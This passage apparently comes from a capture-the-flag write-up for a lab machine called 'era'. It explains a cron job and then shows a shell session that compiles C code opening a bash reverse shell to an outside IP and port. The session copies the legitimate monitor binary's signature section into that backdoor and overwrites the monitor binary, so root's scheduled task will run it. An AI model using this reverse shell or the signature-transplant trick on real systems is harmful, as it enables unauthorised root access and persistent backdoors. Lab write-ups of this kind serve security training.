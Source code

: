 we will notice in machine

* **`CRON -f -P`** – This is the cron daemon running in the foreground, meaning a scheduled task has been triggered.
* **`bash -c echo > /opt/AV/periodic-checks/status.log`** – The scheduled task clears the contents of the `status.log` file.
* **`objcopy --dump-section .text_sig=... /opt/AV/periodic-checks/monitor`** – Extracts the `.text_sig` section from the `/opt/AV/periodic-checks/monitor` binary, probably for integrity verification or signature checking.
* **`/root/initiate_monitoring.sh` executed multiple times (PID 25204–25213)** – This is the key point: the cron job triggers `/root/initiate_monitoring.sh`, but it runs many times in quick succession.

```bash
eric@era:/opt/AV/periodic-checks$ cat a.c 
#include <stdlib.h>
int main() {
    system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.80/9001 0>&1'");
    return 0;
}
eric@era:/opt/AV/periodic-checks$ 
eric@era:/opt/AV/periodic-checks$ gcc a.c -o backdoor
eric@era:/opt/AV/periodic-checks$ ls
a.c  backdoor  monitor  monitor_text_sig.bin  shell.c  status.log
eric@era:/opt/AV/periodic-checks$ objcopy --dump-section .text_sig=text_sig /opt/AV/periodic-checks/monitor
eric@era:/opt/AV/periodic-checks$ ls
a.c  backdoor  monitor  monitor_text_sig.bin  shell.c  status.log  text_sig
eric@era:/opt/AV/periodic-checks$ objcopy --add-section .text_sig=text_sig backdoor 
eric@era:/opt/AV/periodic-checks$ cp backdoor monitor
```

![](<../.gitbook/assets/2025 08 13_18_41_12 Kali_Linux_ _VMware_Workstation.png>)
